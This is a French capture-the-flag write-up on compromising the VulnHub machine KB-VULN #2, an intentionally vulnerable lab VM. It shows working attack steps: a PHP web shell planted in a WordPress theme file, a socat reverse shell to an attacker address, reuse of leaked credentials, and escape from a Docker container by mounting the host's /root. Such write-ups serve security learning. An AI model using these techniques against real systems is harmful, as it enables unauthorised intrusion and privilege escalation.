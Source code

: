 ```yaml
---
title: "Solution du CTF KB-VULN #2 de VulnHub"
tags: [CTF, VulnHub]
---
```


2 Rapides
---------

Voici donc [la suite](https://www.vulnhub.com/entry/kb-vuln-2,562/) du précédent CTF de la série.  

Un scan de port remonte du Samba et du Apache :  

```
Nmap scan report for 192.168.56.6
Host is up (0.00032s latency).
Not shown: 65530 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:99:01:23:fe:c4:84:ef:14:55:87:da:a3:30:6f:50 (RSA)
|   256 cb:8e:e1:b3:3a:6e:64:9e:0f:53:39:7e:18:9d:8b:3f (ECDSA)
|_  256 ec:3b:d9:53:4a:5a:f7:32:f2:3a:f7:a7:6f:31:87:52 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:03:F4:A4 (Oracle VirtualBox virtual NIC)
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2021-12-07T12:23:16
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: kb-server
```

Sur le serveur web, on trouve via énumération des dossiers un wordpress installé. Le module `wp_enum` de *Wapiti* détecte quelques plugins et thèmes, mais rien de critique :  

```
[*] Lancement du module wp_enum
Enumération des extensions WordPress :
akismet 4.1.6 détecté
----
Enumération des thèmes WordPress :
twentytwenty 1.5 détecté
twentyseventeen  détecté
twentynineteen 1.7 détecté
```

Avec l'aide de `wpscan` j'obtiens la version du Wordpress :  

```
[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.5.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.56.6/wordpress/, Match: 'WordPress 5.5.1'
```

Là encore rien de critique. Direction Samba sur lequel on trouve un disque partagé avec une archive zip :  

```console
$ smbclient  -U "" -N -L //192.168.56.6

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      OPEN YOUR EYES!
        IPC$            IPC       IPC Service (Samba Server 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$ smbclient  -U "" -N //192.168.56.6/Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 17 12:58:56 2020
  ..                                  D        0  Wed Sep 16 12:36:09 2020
  backup.zip                          N 16735117  Thu Sep 17 12:58:56 2020

                14380040 blocks of size 1024. 8346256 blocks available
smb: \> lcd /tmp
smb: \> get backup.zip
getting file \backup.zip of size 16735117 as backup.zip (80905,3 KiloBytes/sec) (average 80905,4 KiloBytes/sec)
```

À l'intérieur, on trouve entre autres un fichier `remember_me.txt` avec le contenu suivant :  

```
Username:admin
Password:MachineBoy141
```

Il y a aussi les identifiants de base de données dans la configuration du Wordpress :  

```php
define( 'DB_NAME', 'wordpress_db' );                                                                                   

/** MySQL database username */                                                                                         
define( 'DB_USER', 'kb_vuln' );                                                                                        

/** MySQL database password */                                                                                         
define( 'DB_PASSWORD', 'hellelujah' );
```

Le mot de passe `MachineBoy141` ne permet pas un accès sur SSH / SMB mais permet d'accéder à la zone d'administration du Wordpress.  

La technique habituelle consiste à éditer un fichier PHP via l'interface de Wordpress. On peut éditer les fichiers des thèmes installés, mais tous ne permettent pas la modification (en raison des permissions sur les fichiers).  

Finalement j'ai édité le fichier `wp-content/themes/twentynineteen/404.php` pour y mettre le code suivant au début :  

```php
if (isset($_GET["cmd"])) { echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; }
```

2 Furieux
---------

D'après les interfaces réseau, on est dans un Docker :  

```
3: docker0:  mtu 1500 qdisc noqueue state DOWN group default 
 link/ether 02:42:21:e3:e8:8c brd ff:ff:ff:ff:ff:ff
 inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
 valid\_lft forever preferred\_lft forever
```

`socat` est présent alors j'en profite pour récupérer un reverse shell avec PTY.  

Côté attaquant : 
```bash
socat file:`tty`,raw,echo=0 TCP-L:4242
```

Côté victime : 
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

En réutilisant les identifiants SQL je fouille dans le serveur MySQL local, mais je ne trouve rien d'intéressant.  

Il y a un utilisateur `kbadmin` sur la machine et il utilise le même mot de passe que le Wordpress (`MachineBoy141`) on peut accéder au compte via la commande `su`.  

On peut se connecter aussi directement via SSH mais le service est dans le container donc aucun gain.  

L'utilisateur a des autorisations `sudo` pour passer root :  

```console
kbadmin@kb-server:/$ sudo -l
[sudo] password for kbadmin: 
Matching Defaults entries for kbadmin on kb-server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kbadmin may run the following commands on kb-server:
    (ALL : ALL) ALL

root@kb-server:~# cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Toutefois, on est toujours dans le container, il est temps de s'échapper. Là encore on va employer une technique classique d'escalade de privilèges via Docker consistant à monter le disque de l'hôte dans le container.  

[Voir ici](https://www.trendmicro.com/en_us/research/19/l/why-running-a-privileged-container-in-docker-is-a-bad-idea.html) pour plus d'informations sur les risques de lancer un container Docker avec privilèges.  

Mon problème est que la VM n'a pas d'accès Internet, je ne peux donc pas faire un simple Docker pull. À la place, je vais créer une archive d'une image _Alpine Linux_ pour la copier ensuite dans la VM.  

```console
$ docker pull alpine
Using default tag: latest
latest: Pulling from library/alpine
59bf1c3509f3: Pull complete 
Digest: sha256:21a3deaa0d32a8057914f36584b5288d2e5ecc984380bc0118285c70fa8c9300
Status: Downloaded newer image for alpine:latest
docker.io/library/alpine:latest

$ docker images -a
REPOSITORY          TAG       IMAGE ID       CREATED        SIZE
alpine              latest    c059bfaa849c   12 days ago    5.58MB

$ docker save --output alpine.tar c059bfaa849c
```

Ensuite je charge l'image et l'exécute en montant le `/root` de l'hôte :  

```console
kbadmin@kb-server:~$ docker load --input alpine.tar
8d3ac3489996: Loading layer [==================================================>]  5.866MB/5.866MB
Loaded image ID: sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18

kbadmin@kb-server:~$ docker run -it -v /root:/real_root sha256:c059bfaa849c4d8e4aecaeb3a10c2d9b3d85f5165c66ad3a4d937758128c4d18
/ # ls /
bin        dev        etc        home       lib        media      mnt        opt        proc       real_root  root       run        sbin       srv        sys        tmp        usr        var
/ # ls /real_root/
flag.txt
/ # cd /real_root/
/real_root # cat flag.txt 
dc387b4cf1a4143f562dd1bdb3790ff1
```

Evalal'travail !  

*Published December 08 2021 at 12:07*
